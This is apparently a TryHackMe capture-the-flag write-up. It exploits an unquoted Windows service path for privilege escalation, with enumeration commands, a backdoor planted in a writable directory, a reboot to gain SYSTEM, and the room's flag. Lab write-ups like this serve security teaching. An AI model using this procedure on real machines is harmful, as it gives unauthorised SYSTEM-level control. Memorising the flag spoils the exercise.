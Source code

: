
# Quotinent

Clearly, the point of this room - exploiting unquoted service path in Windows for
privilege escalation. First, find the vulnerable service:

```cmd
> wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

```
    Developmenet Service
    Development Service
    C:\Program Files\Development Files\Devservice Files\Service.exe
    Auto
```

We're throwing out quoted services and services in C:\Windows\\\\, and selecting only
those with Automatic startmode

Great. We found a potentially vulnerable service. Let's find a writable directory:

```cmd
> icacls "C:\Program Files\\Development Files\\"
```

```
C:\Program Files\\Development Files\
    BUILTIN\Users:(W)
    NT SERVICE\TrustedInstaller:(I)(F)
    NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
    NT AUTHORITY\SYSTEM:(I)(F)
    NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
    BUILTIN\Administrators:(I)(F)
    BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
    BUILTIN\Users:(I)(RX)
    BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
    CREATOR OWNER:(I)(OI)(CI)(IO)(F)
    APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
    APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
    APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
    APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
```

Awesome, ***C:\Program Files\\\\Development Files\\\\*** is writable! 

Generate a backdoor, name it ***Devservice.exe*** (first part of the next directory name)
and put in that directory. Next, let's query information about the service configuration:

```cmd
> sc qc "Development Service"
```

```
SERVICE_NAME: Development
Service TYPE : 10 WIN32_OWN_PROCESS
START_TYPE: 2 AUTO_START
ERROR_CONTROL: 1 NORMAL
BINARY_PATH_NAME: C:\Program Files\Development Files\Devservice Files\Service.exe
LOAD_ORDER_GROUP:
TAG: 0
DISPLAY_NAME: Developmenet Service
DEPENDENCIES:
SERVICE_START_NAME: LocalSystem 
```

when the system will boot/reboot, as its start type is AUTO_START, this service will interact with
the Service Control Manager and traverse the path to its binary executable. But instead of the
legitimate service, our backdoor will be executed. Let's reboot the machine and get SYSTEM 
privileges!

```cmd
> shutdown /r /t 0
```

- What is the flag on the Administrator's desktop?

> THM{USPE_SUCCESS}


